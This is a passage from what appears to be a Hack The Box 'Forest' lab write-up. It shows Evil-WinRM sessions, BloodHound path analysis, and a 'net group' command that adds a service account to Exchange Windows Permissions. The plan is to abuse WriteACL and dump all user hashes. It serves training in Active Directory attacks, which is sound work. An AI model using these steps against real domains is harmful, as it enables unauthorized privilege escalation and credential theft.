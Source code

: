     Running this creates a .zip file.

     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir
         Directory: C:\Users\svc-alfresco\Documents
     Mode                LastWriteTime         Length Name
     ----                -------------         ------ ----
     -a----        9/10/2020  10:40 AM          23675 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
     -a----        9/10/2020  10:37 AM         973425 sharp.ps1
     -a----        9/10/2020  10:21 AM         770279 view.ps1

    Copy this to our system and start bloodhound.

     kali@kali:~/Desktop/htb/forest/aclpwn.py$ sudo neo4j console
     [sudo] password for kali:
     Directories in use:
       home:         /usr/share/neo4j
       config:       /usr/share/neo4j/conf
       logs:         /usr/share/neo4j/logs
       plugins:      /usr/share/neo4j/plugins
       import:       /usr/share/neo4j/import
       data:         /usr/share/neo4j/data
       certificates: /usr/share/neo4j/certificates
       run:          /usr/share/neo4j/run
     Starting Neo4j.
     WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
     2020-09-10 05:59:52.469+0000 INFO  ======== Neo4j 4.0.7 ========
     2020-09-10 05:59:52.478+0000 INFO  Starting...
     2020-09-10 06:00:06.777+0000 INFO  Bolt enabled on localhost:7687.
     2020-09-10 06:00:06.778+0000 INFO  Started.
     2020-09-10 06:00:11.993+0000 INFO  Remote interface available at http://localhost:7474/

    Load our zip file to bloodhound and run the query to Find Shortest Paths to Domain Admins. image1

We can see a path to the domain admin. Let break it down and understand.

image1

    svc-alfresco is a member of Service Accounts@HTB.LOCAL. This in turn makes him a member of Privileged IT Accounts@HTB.LOCAL and this group makes him a owner of Account Operators@HTB.LOCAL
    Account Operators@HTB.LOCAL group members have GenericAll permissions on Exchange Windows Permissions@HTB.LOCAL which means that any member of group Account Operators@HTB.LOCAL can modify, add users etc of the group Exchange Windows Permissions@HTB.LOCAL.
    Gaining access to Exchange Windows Permissions@HTB.LOCAL grants our user the WriteACl permission on HTB.LOCAL. This can be abused to dump the hashes of all the users. More about this attack can be found here

So our attack will be like this.

    Add svc-alfrsco to Exchange Windows Permissions@HTB.LOCAL.

     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" svc-alfresco /add /domain
     The command completed successfully.

     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco
     User name                    svc-alfresco
     Full Name                    svc-alfresco
     Comment
     User's comment
     Country/region code          000 (System Default)
     Account active               Yes
     Account expires              Never
